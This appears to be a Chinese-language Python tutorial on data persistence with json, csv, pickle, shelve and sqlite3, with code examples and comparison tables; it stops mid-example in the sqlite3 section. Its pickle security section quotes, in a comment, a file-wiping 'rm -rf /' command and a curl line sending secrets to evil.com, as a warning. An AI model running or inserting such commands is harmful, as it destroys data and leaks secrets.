





# 持久化存储核心：`json`, `csv`, `pickle`, `shelve`, `sqlite3` 完全指南

## 开篇：为什么需要数据持久化？

程序运行时，所有数据都驻留在内存（RAM）中。内存的速度极快，但有一个致命缺陷——**易失性**：一旦程序退出或断电，数据便灰飞烟灭。数据持久化，就是将内存中的数据写入磁盘等非易失性介质，使其在程序重启后依然可用。

**三层理解**：

| 层次 | 问题 | 答案 |
|:---|:---|:---|
| **是什么** | 数据持久化是什么？ | 将内存中的程序数据转换为可存储/传输的格式，写入磁盘或通过网络发送的过程 |
| **为什么** | 为什么不直接用文件写字符串？ | 直接写字符串缺乏结构、类型信息与查询能力；专用模块提供序列化、反序列化、校验、事务等能力 |
| **怎么做** | Python 提供了哪些工具？ | 标准库"存储五件套"：`json`、`csv`、`pickle`、`shelve`、`sqlite3`，各有分工 |

---

## 全局导览：存储方案选择决策树

在面对持久化需求时，第一步不是写代码，而是**选对工具**。下面的决策树将帮你快速定位：



**快速决策口诀**：跨语言用 json/csv，纯 Python 复杂对象用 pickle，按键存取用 shelve，需要查询用 sqlite3。

---

## 四大存储模块全景对比表

在深入每个模块之前，先建立全局视角：

| 维度 | `json` | `csv` | `pickle` | `sqlite3` |
|:---|:---|:---|:---|:---|
| **数据格式** | 文本 (UTF-8) | 文本 (UTF-8) | 二进制 | 二进制 (.db 文件) |
| **数据结构** | 嵌套对象/数组 | 扁平表格 | 任意 Python 对象 | 关系型表 |
| **性能（读）** | 中等 | 快 | 快 | 快（有索引时极快） |
| **性能（写）** | 中等 | 快 | 快 | 中等（事务开销） |
| **安全性** | 高（纯数据） | 高（纯数据） | **极低（可执行任意代码）** | 高（参数化查询） |
| **可读性** | 高 | 高 | 不可读 | 不可读（需 SQL 查询） |
| **跨语言** | 通用 | 通用 | 仅 Python | 通用（SQLite 库广泛） |
| **适合场景** | API、配置、数据交换 | 表格数据、Excel 对接 | 缓存、模型保存、进程间通信 | 结构化查询、事务、并发 |
| **文件体积** | 中等 | 小 | 中等 | 紧凑 |
| **查询能力** | 无 | 无 | 无 | SQL 全功能 |
| **Python 标准库** | 是 | 是 | 是 | 是 |

> **shelve** 未列入此表，因为它本质上是 pickle + dbm 的封装，适用于简单键值持久化，其特性与 pickle 高度一致。

---

## 一、json 模块：Web 通用语与配置文件

### 1.1 是什么：JSON 格式与 Python 类型的映射

JSON (JavaScript Object Notation) 是一种轻量级的文本数据交换格式。`json` 模块实现了 Python 对象与 JSON 字符串之间的双向转换。

**Python 与 JSON 类型映射表**：

| Python 类型 | JSON 类型 | 示例 |
|:---|:---|:---|
| `dict` | object | `{"name": "Alice"}` |
| `list`, `tuple` | array | `[1, 2, 3]` |
| `str` | string | `"hello"` |
| `int`, `float` | number | `42`, `3.14` |
| `True` / `False` | true / false | — |
| `None` | null | — |

> **注意**：Python 的 `set`、`bytes`、`datetime` 等类型没有对应的 JSON 类型，需要自定义处理。

### 1.2 为什么：json 的核心优势

- **通用性**：几乎所有编程语言都支持 JSON，是 Web API 的事实标准
- **可读性**：纯文本格式，人类可直接阅读和编辑
- **安全性**：纯数据格式，不包含可执行代码
- **轻量级**：相比 XML，语法更简洁，解析更快

### 1.3 怎么做：核心 API 与高级用法

#### 1.3.1 核心四函数

| 函数 | 功能 | 输入 | 输出 |
|:---|:---|:---|:---|
| `json.dumps()` | 序列化为字符串 | Python 对象 | `str` |
| `json.loads()` | 从字符串反序列化 | `str` | Python 对象 |
| `json.dump()` | 序列化并写入文件 | Python 对象 + 文件对象 | `None`（写入文件） |
| `json.load()` | 从文件反序列化 | 文件对象 | Python 对象 |

> **记忆技巧**：带 `s` 的操作字符串（string），不带 `s` 的操作文件（file）。

#### 1.3.2 json 序列化/反序列化流程时序图



#### 1.3.3 基础用法：文件读写

```python
import json
from pathlib import Path

# --- 准备数据 ---
records = [
    {"name": "张三", "age": 25, "score": 88.5},
    {"name": "李四", "age": 22, "score": 95.0},
]

db = Path("data/users.json")
db.parent.mkdir(exist_ok=True)

# --- 写入 JSON 文件 ---
# json.dump(): 直接写入文件对象，无需中间字符串
with db.open("w", encoding="utf-8") as f:
    json.dump(
        records,                  # 要序列化的 Python 对象
        f,                        # 文件对象
        ensure_ascii=False,       # 允许中文原样输出（不转义为 \uXXXX）
        indent=2,                 # 缩进 2 空格，增强可读性
        sort_keys=False,          # 是否按键名排序（配置文件可设为 True）
    )

# --- 读取 JSON 文件 ---
# json.load(): 直接从文件对象读取
with db.open(encoding="utf-8") as f:
    loaded = json.load(f)         # 返回原始的 Python 列表

print(loaded)
# [{'name': '张三', 'age': 25, 'score': 88.5},
#  {'name': '李四', 'age': 22, 'score': 95.0}]

# --- 字符串操作 ---
# json.dumps() / json.loads(): 操作字符串，常用于网络传输
json_str = json.dumps(records, ensure_ascii=False)  # 序列化为字符串
restored = json.loads(json_str)                       # 反序列化为 Python 对象
```

#### 1.3.4 高级用法一：自定义编码器（default 参数与 JSONEncoder 子类）

当需要序列化 `json` 不直接支持的类型时，有两种方式：

```python
import json
import datetime
from decimal import Decimal

# --- 方式一：default 参数（简单场景） ---
def custom_default(obj):
    """自定义序列化 fallback 函数"""
    if isinstance(obj, datetime.datetime):
        return obj.isoformat()           # datetime → ISO 8601 字符串
    if isinstance(obj, datetime.date):
        return obj.isoformat()           # date → ISO 8601 字符串
    if isinstance(obj, Decimal):
        return float(obj)                # Decimal → float
    if isinstance(obj, set):
        return sorted(list(obj))         # set → 排序后的列表
    raise TypeError(f"Object of type {type(obj).__name__} is not JSON serializable")

data = {
    "created_at": datetime.datetime.now(),
    "price": Decimal("19.99"),
    "tags": {1, 2, 3},
}

json_str = json.dumps(data, default=custom_default, ensure_ascii=False)
print(json_str)
# {"created_at": "2026-06-04T10:30:00", "price": 19.99, "tags": [1, 2, 3]}

# --- 方式二：继承 JSONEncoder（复用场景） ---
class EnhancedEncoder(json.JSONEncoder):
    """可复用的自定义 JSON 编码器"""
    def default(self, obj):
        if isinstance(obj, (datetime.datetime, datetime.date)):
            return obj.isoformat()
        if isinstance(obj, Decimal):
            return float(obj)
        if isinstance(obj, set):
            return sorted(list(obj))
        return super().default(obj)       # 兜底：交给父类抛出 TypeError

# 使用 cls 参数指定编码器
json_str2 = json.dumps(data, cls=EnhancedEncoder, ensure_ascii=False)
```

#### 1.3.5 高级用法二：反序列化钩子（object_hook）

与 `default` 相对，`object_hook` 在反序列化时为每个 dict 提供拦截机会：

```python
import json
import datetime

def datetime_hook(obj: dict) -> dict:
    """反序列化钩子：识别 ISO 格式的日期字符串并还原"""
    for key, value in obj.items():
        if isinstance(value, str):
            # 尝试解析 ISO 8601 格式的日期时间
            try:
                obj[key] = datetime.datetime.fromisoformat(value)
            except (ValueError, TypeError):
                pass
    return obj

json_str = '{"name": "test", "created_at": "2026-06-04T10:30:00"}'
data = json.loads(json_str, object_hook=datetime_hook)

print(type(data["created_at"]))  # <class 'datetime.datetime'>
print(data["created_at"].year)   # 2026
```

#### 1.3.6 高级用法三：ensure_ascii / sort_keys / indent 参数详解

| 参数 | 默认值 | 说明 | 推荐设置 |
|:---|:---|:---|:---|
| `ensure_ascii` | `True` | 为 `True` 时，非 ASCII 字符转义为 `\uXXXX`；为 `False` 时原样输出 | **`False`**（中文友好） |
| `sort_keys` | `False` | 为 `True` 时，字典按键名排序输出 | 配置文件用 `True`（便于 diff）；数据传输用 `False`（更快） |
| `indent` | `None` | 缩进空格数，`None` 表示紧凑输出 | 配置文件用 `2` 或 `4`；网络传输用 `None`（更小体积） |
| `separators` | `(', ', ': ')` | 元素和键值对分隔符 | 紧凑模式用 `(',', ':')`（去除多余空格） |

```python
import json

data = {"名称": "Python教程", "版本": 3.12, "作者": "Guido"}

# 配置文件风格：可读性优先
pretty = json.dumps(data, ensure_ascii=False, indent=2, sort_keys=True)
print("=== 配置文件风格 ===")
print(pretty)

# 网络传输风格：体积优先
compact = json.dumps(data, ensure_ascii=False, separators=(',', ':'))
print("=== 网络传输风格 ===")
print(compact)
# {"名称":"Python教程","版本":3.12,"作者":"Guido"}
```

#### 1.3.7 使用 JSON Schema 校验数据

> jsonschema 是第三方库，需先 `pip install jsonschema`。

```python
import json
import jsonschema

# 1. 定义 Schema（数据契约）
schema = {
    "type": "object",
    "required": ["name", "age"],
    "properties": {
        "name":  {"type": "string", "minLength": 1},
        "age":   {"type": "integer", "minimum": 0},
        "email": {"type": "string", "format": "email"},
    },
}

# 2. 校验数据
data = {"name": "Alice", "age": 25, "email": "alice@example.com"}
try:
    jsonschema.validate(instance=data, schema=schema)
    print("校验通过!")
except jsonschema.ValidationError as e:
    print(f"校验失败: {e.message}")
```

> **实战价值**：API 输入验证、配置文件校验、文档即代码（Schema 本身就是精确的机器可读文档）。

---

## 二、csv 模块：表格数据的通用语言

### 2.1 是什么

CSV (Comma-Separated Values) 是一种用纯文本存储表格数据的格式。每行一条记录，字段间用分隔符（通常是逗号）隔开。

### 2.2 为什么

- **通用性**：Excel、数据库、数据分析工具均可读写
- **简洁性**：纯文本，无需特殊软件即可查看
- **流式处理**：逐行读取，内存友好

### 2.3 怎么做

#### 2.3.1 读写模式对比表

| 模式 | API | 读取结果类型 | 优势 | 适用场景 |
|:---|:---|:---|:---|:---|
| `reader` / `writer` | `csv.reader(fh)` | 每行为 `list` | 简单直接 | 无表头或列顺序固定 |
| `DictReader` / `DictWriter` | `csv.DictReader(fh)` | 每行为 `dict` | 按列名访问，鲁棒性好 | 有表头，需要按列名操作 |

#### 2.3.2 基础 API：writer / reader

```python
import csv
from pathlib import Path

rows = [
    ["ID", "Name", "Department"],
    [1, "Alice", "Engineering"],
    [2, "Bob", "Marketing"],
    [3, "Charlie, Jr.", "Engineering"],  # 包含逗号的字段会被自动引用
]

output_path = Path("data/employees.csv")
output_path.parent.mkdir(exist_ok=True)

# --- 写入 CSV ---
with open(output_path, "w", newline="", encoding="utf-8") as fh:
    # newline="" 是强制参数，避免 Windows 上出现多余空行
    writer = csv.writer(fh)
    writer.writerows(rows)              # 写入多行

# --- 读取 CSV ---
with open(output_path, "r", newline="", encoding="utf-8") as fh:
    reader = csv.reader(fh)
    header = next(reader)               # 读取并跳过表头
    print(f"Header: {header}")
    for row in reader:
        # row 是字符串列表: ['1', 'Alice', 'Engineering']
        print(f"Read row: {row}")
```

#### 2.3.3 面向字典的 API：DictWriter / DictReader

```python
import csv
from pathlib import Path

output_path = Path("data/scores.csv")

# --- 写入 CSV（字典模式） ---
with open(output_path, "w", newline="", encoding="utf-8") as fh:
    fieldnames = ["name", "score", "exam_date"]   # 定义表头和字典的键
    writer = csv.DictWriter(fh, fieldnames=fieldnames)

    writer.writeheader()                # 写入表头行
    writer.writerow({"name": "Alice", "score": 95, "exam_date": "2023-10-26"})
    writer.writerow({"name": "Bob", "score": 88, "exam_date": "2023-10-27"})
    # 缺失字段会自动填入空字符串

# --- 读取 CSV（字典模式） ---
with open(output_path, "r", newline="", encoding="utf-8") as fh:
    reader = csv.DictReader(fh)         # 自动使用第一行作为表头
    for row in reader:
        # row 是字典: {'name': 'Alice', 'score': '95', 'exam_date': '2023-10-26'}
        print(f"Name: {row['name']}, Score: {row['score']}")
```

#### 2.3.4 方言 (Dialect) 与嗅探器 (Sniffer)

现实中的 CSV 文件格式各异（逗号/制表符/分号分隔），`Dialect` 封装了格式参数，`Sniffer` 可自动检测格式。

| 参数 | 说明 | 默认值 (excel 方言) |
|:---|:---|:---|
| `delimiter` | 列分隔符 | `,` |
| `quotechar` | 引用字符 | `"` |
| `quoting` | 引用策略 | `QUOTE_MINIMAL` |
| `lineterminator` | 行终止符 | `\r\n` |

```python
import csv

# 假设有一个分号分隔的文件
tsv_content = "Name;Score\nAlice;95\nBob;88"

# --- 使用 Sniffer 自动检测格式 ---
sniffer = csv.Sniffer()
dialect = sniffer.sniff(tsv_content)
print(f"检测到分隔符: {dialect.delimiter}")  # ;

# --- 注册自定义方言，方便复用 ---
csv.register_dialect('semicolon', delimiter=';', quoting=csv.QUOTE_NONE)
reader = csv.reader(tsv_content.splitlines(), dialect='semicolon')
for row in reader:
    print(row)
```

---

## 三、pickle & shelve：Python 原生对象的序列化

### 3.1 pickle vs json 对比



| 对比维度 | `json` | `pickle` |
|:---|:---|:---|
| 格式 | 文本 (UTF-8) | 二进制 |
| 跨语言 | 通用 | 仅 Python |
| 可读性 | 高 | 无 |
| 安全性 | **安全** | **危险（可执行任意代码）** |
| 类型支持 | 基本类型 | 几乎所有 Python 对象 |
| 速度 | 中等 | 快 |
| 版本兼容 | 无限制 | 向后兼容，向前不兼容 |

### 3.2 pickle 核心用法

```python
import pickle
from pathlib import Path

# --- 准备复杂对象 ---
def add_one(x):
    """模块级函数可以被 pickle（lambda 不行，会抛 PicklingError）"""
    return x + 1

state = {
    "model": add_one,                  # 模块级函数可以被 pickle
    "epoch": 10,
    "history": {"loss": [0.1, 0.05], "acc": [0.9, 0.95]}
}

output_path = Path("data/checkpoint.pkl")
output_path.parent.mkdir(exist_ok=True)

# --- 序列化到文件 ---
with open(output_path, "wb") as fh:    # 注意：二进制模式 "wb"
    # HIGHEST_PROTOCOL 自动选择最高协议版本，性能最优
    pickle.dump(state, fh, protocol=pickle.HIGHEST_PROTOCOL)

# --- 从文件反序列化 ---
with open(output_path, "rb") as fh:    # 注意：二进制模式 "rb"
    restored_state = pickle.load(fh)

print(restored_state["model"](5))       # 输出 6
```

**协议 (Protocol) 版本说明**：

| 协议版本 | 引入版本 | 说明 |
|:---|:---|:---|
| 0 | Python 1.x | ASCII 格式，兼容性最高，体积最大 |
| 1-2 | Python 2.x | 旧版二进制格式 |
| 3 | Python 3.0 | 默认协议，不支持 Python 2 |
| 4 | Python 3.4 | 支持大对象（>4GB）、更多类型 |
| 5 | Python 3.8 | 带外数据 (out-of-band)，性能更优 |

> **最佳实践**：始终使用 `pickle.HIGHEST_PROTOCOL`，除非需要与旧版 Python 兼容。

### 3.3 pickle 安全风险与替代方案



**为什么 pickle 危险？** pickle 格式是图灵完备的，反序列化过程可以执行任意 Python 代码：

```python
# --- 恶意 pickle 示例（仅演示，切勿使用） ---
# 一个精心构造的 .pkl 文件可以在 load 时执行：
# os.system('rm -rf /')          # 删除文件
# subprocess.run(['curl', 'http://evil.com/?data=' + secrets])  # 窃取数据

# --- 安全替代方案：自定义 JSON 结构 ---
import json

class Model:
    def __init__(self, name, params):
        self.name = name
        self.params = params

    def to_dict(self):
        """手动定义序列化格式"""
        return {"__type__": "Model", "name": self.name, "params": self.params}

    @classmethod
    def from_dict(cls, data):
        """手动反序列化，类型完全可控"""
        if data.get("__type__") != "Model":
            raise ValueError("Unknown type")
        return cls(data["name"], data["params"])

# 序列化
model = Model("GPT", {"layers": 12, "dim": 768})
json_str = json.dumps(model.to_dict())

# 反序列化（安全！只重建已知类型）
restored = Model.from_dict(json.loads(json_str))
```

### 3.4 shelve：持久化的字典

`shelve` 在 `pickle` 之上提供了字典式接口，适合简单的键值存储：

```python
import shelve
from pathlib import Path

db_path = Path("data/my_shelf")
db_path.parent.mkdir(exist_ok=True)

# --- 写入 ---
with shelve.open(str(db_path)) as db:
    db["user_profile"] = {"name": "Alice", "theme": "dark"}
    db["last_login"] = "2023-10-27T10:00:00"

# --- 读取 ---
with shelve.open(str(db_path)) as db:
    print(db["user_profile"])
    # 修改嵌套对象必须先取出、修改、再写回
    profile = db["user_profile"]
    profile["theme"] = "light"
    db["user_profile"] = profile       # 必须写回才能持久化

# --- writeback 模式 ---
with shelve.open(str(db_path), writeback=True) as db:
    db["user_profile"]["theme"] = "dark"  # 修改自动写回
    # 注意：writeback=True 在 close 时会重新序列化所有缓存对象，大对象性能差
```

**shelve 的三大限制**：

1. **不线程安全 / 不进程安全**：同一时间只允许一个写入者
2. **writeback=True 性能陷阱**：关闭时会重新序列化所有缓存对象
3. **跨平台不兼容**：依赖 `dbm`，不同 OS 实现不同（`gdbm` / `ndbm` 等）

> **结论**：当你开始需要 `shelve` 不具备的任何数据库特性（并发、查询、事务、跨平台）时，立即转向 `sqlite3`。

---

## 四、sqlite3 模块：轻量级关系型数据库

### 4.1 是什么：sqlite3 架构



**核心对象说明**：

| 对象 | 作用 | 生命周期 |
|:---|:---|:---|
| `Connection` | 与数据库文件的连接，管理事务 | 长生命周期，通常整个应用期间保持 |
| `Cursor` | 执行 SQL 语句，获取结果 | 短生命周期，用完即可释放 |
| `Row` | 查询结果的一行，支持按列名访问 | 每次迭代产生 |

### 4.2 为什么：何时选择 sqlite3

- 数据需要 **WHERE / JOIN / GROUP BY** 等结构化查询
- 需要 **事务** 保证数据操作的原子性
- 需要 **并发读取**（WAL 模式下读写不冲突）
- 需要 **索引** 加速查询
- 数据文件需要 **跨平台** 兼容

### 4.3 怎么做：基础 CRUD

```python
import sqlite3
from pathlib import Path

db_path = Path("data/app.db")
db_path.parent.mkdir(exist_ok=True)

# ========== 1. 连接与建表 ==========
conn = sqlite3.connect(db_path)           # 文件不存在则自动创建
conn.row_factory = sqlite3.Row            # 让结果行支持按列名访问

cur = conn.cursor()
cur.execute("""
    CREATE TABLE IF NOT EXISTS users (
        id    INTEGER PRIMARY KEY,        -- 自增主键
        name  TEXT    NOT NULL,           -- 非空约束
        score REAL    NOT NULL DEFAULT 0  -- 默认值
    )
""")

# ========== 2. Create：插入数据 ==========
# 单条插入
cur.execute(
    "INSERT INTO users (name, score) VALUES (?, ?)",
    ("Alice", 95.5)                       # 使用 ? 占位符防止 SQL 注入
)

# 批量插入（更高效）
users_to_add = [("Bob", 88.0), ("Charlie", 72.5), ("Diana", 91.0)]
cur.executemany(
    "INSERT INTO users (name, score) VALUES (?, ?)",
    users_to_add
)

conn.commit()                             # 提交事务，写入磁盘

# ========== 3. Read：查询数据 ==========
# 条件查询
cur.execute("SELECT * FROM users WHERE score >= ?", (90,))
high_scorers = cur.fetchall()
for row in high_scorers:
    print(f"ID: {row['id']}, Name: {row['name']}, Score: {row['score']}")

# 聚合查询
cur.execute("SELECT COUNT(*) as cnt, AVG(score) as avg_score FROM users")
stats = cur.fetchone()
print(f"总人数: {stats['cnt']}, 平均分: {stats['avg_score']:.1f}")

# ========== 4. Update：更新数据 ==========
cur.execute(
    "UPDATE users SET score = ? WHERE name = ?",
    (100.0, "Alice")
)
conn.commit()

# ========== 5. Delete：删除数据 ==========
cur.execute("DELETE FROM users WHERE score < ?", (80,))
conn.commit()

# ========== 6. 关闭连接 ==========
conn.close()
```

### 4.4 事务管理：with 语句

```python
import sqlite3

db_path = "data/app.db"

# --- 推荐方式：with 语句自动管理事务 ---
with sqlite3.connect(db_path) as conn:
    conn.row_factory = sqlite3.Row
    conn.execute("INSERT INTO users (name, score) VALUES (?, ?)", ("Eve", 85.0))
    conn.execute("UPDATE users SET score = ? WHERE name = ?", (96.0, "Bob"))
    # with 块正常结束 → 自动 commit
    # with 块抛出异常 → 自动 rollback
```

**事务行为对比**：

| 方式 | 成功时 | 异常时 | 推荐程度 |
|:---|:---|:---|:---|
| 手动 `commit()` / `rollback()` | 需手动调用 | 需 try-except 处理 | 不推荐 |
| `with conn:` | 自动 commit | 自动 rollback | **推荐** |

### 4.5 连接管理最佳实践

```python
import sqlite3
from contextlib import contextmanager

@contextmanager
def get_db_connection(db_path: str):
    """数据库连接上下文管理器：确保连接始终被关闭"""
    conn = sqlite3.connect(db_path)
    conn.row_factory = sqlite3.Row
    try:
        yield conn
    finally:
        conn.close()                      # 无论如何都关闭连接

# 使用
with get_db_connection("data/app.db") as conn:
    rows = conn.execute("SELECT * FROM users LIMIT 5").fetchall()
    for row in rows:
        print(row["name"])
```

### 4.6 索引：加速查询

```python
with sqlite3.connect("data/app.db") as conn:
    # 在频繁查询的列上创建索引
    conn.execute("CREATE INDEX IF NOT EXISTS idx_users_name ON users (name)")
    conn.execute("CREATE INDEX IF NOT EXISTS idx_users_score ON users (score DESC)")

    # 查看查询计划（验证索引是否被使用）
    plan = conn.execute("EXPLAIN QUERY PLAN SELECT * FROM users WHERE name = ?",
                        ("Alice",)).fetchall()
    for row in plan:
        print(row)
```

**索引使用原则**：

| 场景 | 是否创建索引 |
|:---|:---|
| 表数据 > 数千行，某列频繁用于 WHERE | 是 |
| 列用于 JOIN 连接 | 是 |
| 列用于 ORDER BY 排序 | 是 |
| 小表（< 1000 行） | 否（全表扫描更快） |
| 频繁 INSERT/UPDATE 的列 | 否（索引增加写入开销） |

### 4.7 自定义函数

```python
import sqlite3
import hashlib

def sha256_hash(text: str) -> str:
    """自定义标量函数：计算 SHA-256 哈希"""
    return hashlib.sha256(text.encode('utf-8')).hexdigest()

with sqlite3.connect(":memory:") as conn:
    # 注册自定义函数：函数名、参数个数、函数实现
    conn.create_function("sha256", 1, sha256_hash)

    result = conn.execute("SELECT sha256(?)", ("hello world",)).fetchone()
